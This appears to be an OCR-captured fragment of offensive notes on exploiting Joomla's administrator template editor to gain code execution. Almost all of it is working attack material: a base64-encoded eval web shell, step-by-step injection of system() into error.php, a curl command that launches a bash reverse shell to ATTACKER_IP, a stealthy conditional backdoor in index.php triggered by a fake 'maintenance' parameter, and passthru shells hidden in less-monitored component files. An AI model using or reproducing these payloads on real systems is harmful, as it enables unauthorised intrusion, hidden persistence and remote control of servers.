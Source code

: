 ```php
# 3. Base64 Encoded Shell (Evasion)
<?php eval(base64_decode($_GET['shell'])); ?>
```

**Step-by-Step Exploitation:**

```bash
# Step 1: Login to admin panel
http://target.com/administrator/

# Step 2: Navigate to Templates
Configuration → Templates → [Template Name] → error.php

# Step 3: Inject PHP code and save
# Add system($_GET['cmd']); to error.php

# Step 4: Test code execution
curl -s "http://target.com/templates/protostar/error.php?cmd=id"

# Expected output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Step 5: Upgrade to reverse shell
curl -s "http://target.com/templates/protostar/error.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'"
```

#### Advanced Template Modification Techniques

**Method 2: Index.php Injection (Stealth)**
```php
# Modify index.php with conditional backdoor
<?php
// Original Joomla code above
if (isset($_GET['debug']) && $_GET['debug'] === 'maintenance') {
    if (isset($_GET['exec'])) {
        echo "<pre>" . shell_exec($_GET['exec']) . "</pre>";
        exit();
    }
}
// Original Joomla code continues
?>

# Access: http://target.com/?debug=maintenance&exec=whoami
```

**Method 3: Component PHP File Injection**
```bash
# Target component files (less monitored)
/templates/[template]/html/com_content/article/default.php
/templates/[template]/html/com_users/login/default.php

# Inject web shell into component template
<?php
if ($_GET['component'] === 'shell') {
    passthru($_GET['cmd']);
    exit();
}
?>
```
